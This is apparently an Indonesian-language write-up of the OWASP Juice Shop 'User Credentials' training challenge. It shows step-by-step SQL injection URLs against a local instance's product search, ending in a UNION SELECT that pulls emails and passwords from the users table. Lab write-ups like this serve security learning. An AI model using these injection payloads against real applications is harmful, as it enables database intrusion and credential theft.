

# User Credential

## Link Resource

https://juice-shop.herokuapp.com/#/score-board?categories=Injection&showDisabledChallenges=false

## Jawaban + Bukti


### Step-by-step



1. pada soal kali ini kita diminta untuk mendapatkan daftar semua kredensial pengguna melalui serangan SQL Injection.

```sh
http://localhost:3000/rest/products/search?q='
```

2. maka kita dapat menggunakan search dibanding login form karena lebih bisa di injection.

```sh
http://localhost:3000/rest/products/search?q=')) union select 1,2,3,4,5,6,7,8,9 from users--
```


3. selanjutnya kita bisa mencoba menggunakan union select

```sh
http://localhost:3000/rest/products/search?q=')) union select id,email,password,4,5,6,7,8,9 from users--
```


4. kemudian kita dapat mengganti beberapa kolom dengan tabel asli dari skema database, dan karena kita menggunakan kolom email dan password maka berhasil mendapatkan hasilnya.

### Catatan

- Sukses mendapatkan user credential
